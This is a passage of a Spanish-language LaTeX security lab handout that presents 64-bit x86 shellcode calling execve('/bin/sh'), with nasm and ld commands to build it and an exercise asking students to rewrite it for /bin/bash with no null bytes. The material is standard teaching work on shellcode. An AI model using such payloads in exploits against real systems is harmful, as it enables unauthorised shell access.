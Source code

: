 \begin{lstlisting}[caption={A 64-bit shellcode \texttt{mysh\_64.s}}]
  section .text
  global _start
    _start:
      ; The following code calls execve("/bin/sh", ...)
      xor  rdx, rdx       ; 3rd argument (stored in rdx)
      push rdx
      mov rax,'/bin//sh'  
      push rax
      mov rdi, rsp        ; 1st argument (stored in rdi)
      push rdx
      push rdi
      mov rsi, rsp        ; 2nd argument (stored in rsi)
      xor  rax, rax
      mov al, 0x3b        ; execve()
      syscall
\end{lstlisting}

Podemos usar los siguientes comandos para compilar el código en ensamblador en un binario de 64-bits:

\begin{lstlisting}
$ nasm -f elf64 mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
\end{lstlisting}

\paragraph{Tarea.}
Repita la Tarea 1.b usando el shellcode de 64-bits. Es necesario aclarar que en vez de ejecutar \texttt{"/bin/sh"}, necesitaremos ejecutar \texttt{"/bin/bash"} y no se permite usar \texttt{/} redundantes, es decir la longitud de la cadena debe ser de 9 bytes (\texttt{/bin/bash}).
Por favor demuestre como puede hacer esto.
Además de mostrar que puede obtener una shell bash, debe de mostrar que su código no contiene ceros.

\section{Informe del Laboratorio}



\section*{Agradecimientos}












